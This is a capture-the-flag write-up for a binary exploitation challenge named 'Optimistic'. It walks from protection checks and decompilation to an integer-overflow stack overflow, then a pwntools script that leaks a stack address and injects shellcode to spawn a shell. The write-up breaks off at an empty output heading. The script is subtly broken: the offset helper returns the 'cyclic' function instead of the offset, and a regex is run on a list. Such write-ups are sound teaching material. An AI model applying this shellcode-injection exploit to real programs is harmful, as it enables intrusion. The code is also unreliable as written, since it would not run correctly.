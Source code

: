 # Optimistic
> Write-up author: jon-brandy
## DESCRIPTION:
Are you ready to feel positive?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given, then check the type of file we got.

> RESULT - 64 BIT BINARY FILE - NOT STRIPPED

![image](https://user-images.githubusercontent.com/70703371/210699697-7c4031c0-514c-4ebb-9255-b381fd9978b4.png)


2. Now check the binary's protection.

> RESULT - NO CANARY FOUND (can lead to bufferoverflow) - NX DISABLED (Can inject shellcode)

![image](https://user-images.githubusercontent.com/70703371/210699746-4f8d9148-e1a7-4ff9-bbb0-9e24bcb1908d.png)


3. Let's run the binary then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210699840-b6c4a59c-e4ea-4f03-b480-ecc17dbaa25a.png)


![image](https://user-images.githubusercontent.com/70703371/210699934-da4c8ea2-1eee-4028-ae31-19bd499b8519.png)


4. Hmm.. Let's decompile the binary and analyze the `main()` function.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/210700095-aabbf8c3-c55f-4d37-b5d8-a7298735b4fe.png)


5. Seems like we need to find the offset of our stack pointer. Not only that now we know why the binary skipped the age prompt, it's because the email variable only accepts 8 characters.

![image](https://user-images.githubusercontent.com/70703371/210700522-b68eec46-47af-4878-9817-f5673b7a0de4.png)


![image](https://user-images.githubusercontent.com/70703371/210701868-099b344f-17eb-43c8-a812-7940fb416717.png)


6. The vuln here, `local_84` is an unsigned int, then converted to int and compared to another value. This could lead to **Interger Overflow**.

![image](https://user-images.githubusercontent.com/70703371/210701107-cc6dda28-e407-42d1-a1d9-06c7fae999d1.png)


![image](https://user-images.githubusercontent.com/70703371/210701129-27c9cf30-6bf7-48e1-ae97-9c7c32fa8944.png)


> QUICK INFO

![image](https://user-images.githubusercontent.com/70703371/210701790-af97a0c4-1635-41eb-a62c-3dc99cfe4d3e.png)


7. So let's run the binary in gbd.

> At this point, we know the unsigned int is ranged from 0 - 4,294,967,295, let's input `1` as the length.

![image](https://user-images.githubusercontent.com/70703371/210702097-59de7283-a312-4b67-9511-acbba2c672c1.png)


![image](https://user-images.githubusercontent.com/70703371/210702154-71e0d74c-7bb8-40ad-99b4-7597463d1476.png)


8. Hmm.. Confused why it's terminated, because it must only validating if the length is above 64.

![image](https://user-images.githubusercontent.com/70703371/210702300-93800603-883c-4577-b091-bdf11d2f3cc4.png)


9. Let's run the binary without gdb then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210703200-fd995d5f-a764-4271-b2ca-10b80c5b0538.png)


10. Got segmentation fault!
11. Hmm.. let's try to get the EIP/RIP offset with pwntools then.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './optimistic'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

def getOffset(pattern):
    sh = process(exe)
    sh.sendlineafter(':', 'y')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', '-1')
    sh.sendlineafter(':', pattern)
    sh.wait()
    offset = cyclic_find(sh.corefile.read(sh.corefile.sp,4))
    info('EIP/RIP offset : {i}'.format(i=offset))
    return cyclic

##sh = start()
pattern = cyclic(1024)
offset = getOffset(pattern)

```

> OUTPUT - 104

![image](https://user-images.githubusercontent.com/70703371/210705112-50c193d7-9702-42bd-b962-3c1993b54fa6.png)


12. Now we need to get the location of **EBP** (leak the stack address).

```py
# LEAK THE STACK ADDRESS
stackAddr = int(re.search(r"(0x[\w\d]+)", sh.recvlines()).group(0), 16)
info("Stack Address Leaked: %#x", stackAddr)

## remove 96 bytes to point at RSP instead of RBP | remove 96 bytes because `local_68` buffer is 96 bytes
stackAddr = stackAddr - 96
```

13. Now set the shellcode.

```py
## create the shellcode
shellcode = asm(shellcraft.sh())

## payload

p = flat(
    [
        shellcode,
        cyclic(offset - len(shellcode)), # as the padding bytes
        stackAddr
    ]
)
```

> THE SCRIPT SO FAR

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './optimistic'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

def getOffset(pattern):
    sh = process(exe)
    sh.sendlineafter(':', 'y')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', '-1')
    sh.sendlineafter(':', pattern)
    sh.wait()
    offset = cyclic_find(sh.corefile.read(sh.corefile.sp,4))
    info('EIP/RIP offset : {i}'.format(i=offset))
    return cyclic

pattern = cyclic(1024)
offset = getOffset(pattern)

sh = start()

# LEAK THE STACK ADDRESS
stackAddr = int(re.search(r"(0x[\w\d]+)", sh.recvlines()).group(0), 16)
info("Stack Address Leaked: %#x", stackAddr)

## remove 96 bytes to point at RSP instead of RBP | remove 96 bytes because `local_68` buffer is 96 bytes
stackAddr = stackAddr - 96

## create the shellcode
shellcode = asm(shellcraft.sh())

## payload

p = flat(
    [
        shellcode,
        cyclic(offset - len(shellcode)), # as the padding bytes
        stackAddr
    ]
)

sh.sendlineafter(':','y')
sh.sendlineafter(':','aa')
sh.sendlineafter(':','aa')
sh.sendlineafter(':','-1')
sh.sendlineafter(':',p)

sh.interactive()

```

> OUTPUT






